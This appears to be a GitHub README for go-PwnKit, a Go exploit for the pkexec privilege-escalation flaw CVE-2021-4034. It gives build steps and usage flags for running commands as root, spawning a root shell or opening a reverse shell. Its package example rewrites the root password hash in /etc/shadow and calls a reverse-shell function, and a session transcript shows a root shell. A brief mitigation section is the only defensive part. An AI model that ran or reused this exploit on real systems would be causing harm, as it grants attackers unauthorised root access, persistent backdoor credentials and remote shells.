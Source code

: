 # go-PwnKit

A pure-Go implementation of the **CVE-2021-4034 PwnKit** exploit.

The exploit use `syscall.ForkExec` to survive end of main program.



## Installation

```bash
git clone git@github.com:OXDBXKXO/go-PwnKit.git
cd go-PwnKit
make
```



As the exploit relies on a malicious shared library, a **PWN.so** file is generated from ***payload.go*** and embed in the resulting `exploit` executable.

The ***Makefile*** uses `sed` to temporarily change the package name of the ***payload.go*** file to `main`, hence making this ***Makefile*** Linux-only.

As the Go payload is not as reliable as the C one, the ***Makefile*** will compile the exploit with the C payload by default. You can choose to compile with the Go payload using `make build_go`.



## Usage

#### As standalone executable

```
$> ./exploit -h
Usage of ./exploit:
  -c string
        Command to execute as root
  -r string
        Open a reverse-shell instead. Format: ip:port
  -s    Spawn a root shell
```

The exploit can either be used with a command (`-c`), as a reverse-shell (`-r`) or spawn a root shell (`-s`).



```
$> ./exploit -s
sh-5.1#
```



#### As package

```go
package main

import (
    "github.com/OXDBXKXO/go-PwnKit"
)

func main() {
    // Change root password to 'password'
    gopwnkit.Command(`sed -i -e 's,^root:[^:]\+:,root:$6$eymNRCK.KxwDM6vu$idH0swGW1nsnLb8fT1QibUho5xg7uGJT7fuiheLZHIi9M4gTSk0qIOlUIk2Mm9/Nz5C.T4GkgkmLcK5BtOPkS0:,' etc/shadow`)

    // Open a reverse-shell
    gopwnkit.RevShell("127.0.0.1:1337")
}

```

Note as `Command` and `RevShell` use `syscall.ForkExec` to run the exploit, resulting processes are separate from the main program and survive its end.



## Demonstration

```bash
$> ./exploit
sh-5.1# id
uid=0(root) gid=0(root) groups=0(root)
sh-5.1#
```



## Mitigation

Patch `pkexec` if possible, otherwise disable the ***setuid*** bit on the `pkexec` binary.

```bash
chmod 0755 /usr/bin/pkexec
```



## Credits

This project is inspired by several other PoCs of the **PwnKit** exploit.



Thanks to [An00bRektn](https://github.com/An00bRektn/CVE-2021-4034) for the straight-forward exploit setup.

Thanks to [PaterGottesman](https://github.com/PeterGottesman/pwnkit-exploit) and [berdav](https://github.com/berdav/CVE-2021-4034) for the clarity of the exploit explanation.

Thanks to [dzonerzy](https://github.com/dzonerzy/poc-cve-2021-4034) for the *GIO_USE_VFS* trick.

